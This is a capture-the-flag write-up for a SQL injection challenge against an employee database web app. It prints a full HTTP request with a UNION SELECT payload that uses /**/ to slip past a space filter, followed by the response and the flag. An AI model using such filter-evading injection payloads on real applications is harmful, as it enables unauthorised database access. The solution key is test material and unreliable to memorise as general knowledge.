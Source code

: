 # Solution Write Up for 'Empolyee Management'
# Expected Behavior
The challange is a web SQL injection challenge.   The web interface reads and writes from an employee database.


# Solution

The key here is to figure out the injection is in the last name parameter of the read function, the table name is "location", spaces can be escaped with /**/, and a UNION will display two tables in one query.



The first clue is in the add employee page.  The user will get a message that the data has been added to two tables.  None of these fields are vulnerable to sql injection.

![Adding](assets/images/add.JPG)

**Figure:** User being added to database

Next, when they go to the read page, they will see that results are only being displayed from one table - employee.  

![Reading](assets/images/read.JPG)


The last name search field is vulnerable to sql injection, however, character sanitization is being used.  So basic SQL injection will not work.  The solution is to use a UNION with /**/ as spaces to display the location table which has been mentioned on the insert page.  The location table has the flag.  The sanitization prevents basic sqli testers from working.  

## Supporting solution info
[//]: <> (Add your full sulution scripts as files if applicable or use this section here to add a code block.)
```html
POST /read.php HTTP/1.1
Host: 192.168.7.97
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 97
Origin: http://192.168.7.97
Connection: close
Referer: http://192.168.7.97/read.php
Upgrade-Insecure-Requests: 1
 
lastname%3d'test'/**/union/**/all/**/select*from/**/location;=""&submit=View%20Results&lastname=p
```

### Expected output:

```
Response:

HTTP/1.1 200 OK
Date: Wed, 19 Aug 2020 15:06:08 GMT
Server: Apache/2.4.32 (Unix)
X-Powered-By: PHP/5.6.40
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 1007

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8" />
    <meta http-equiv="x-ua-compatible" content="ie=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />

    <title>Employeee Database Interface</title>

    <link rel="stylesheet" href="css/style.css" />
  </head>

  <body>
    <h1>Employee Database Interface</h1>
  </body>
</html>

    <h2>Results</h2>

    <table>
      <thead>
<tr>
  <th>First Name</th>
  <th>Last Name</th>
  <th>Location ID</th>
  <th>Age</th>
  <th>Date</th>
</tr>
      </thead>
      <tbody>
        <tr>
<td>2</td>
<td>ATR{N07 4LL PH1l73R2 R Cr3473D 3KW4l}</td>
<td>plano</td>
<td>tx</td>
<td>us</td>
      </tr>
          </tbody>
  </table>
  
<h2>Find employee based on last name</h2>

<form method="post">
  <label for="lastname">Last Name</label>
  <input type="text" id="lastname" name="lastname">
  <input type="submit" name="submit" value="View Results">
</form>

<a href="index.php">Back to home</a>

</body>
</html>
 ```

[//]: <> (Give an explination of the code and how to run it here. Make sure to explain the correct output so that anyone following allong can verify that it is running correctly.)


# Flag
[//]: <> (Add the flag below)
**ATR[N07 4LL PH1l73R2 R Cr3473D 3KW4l]**

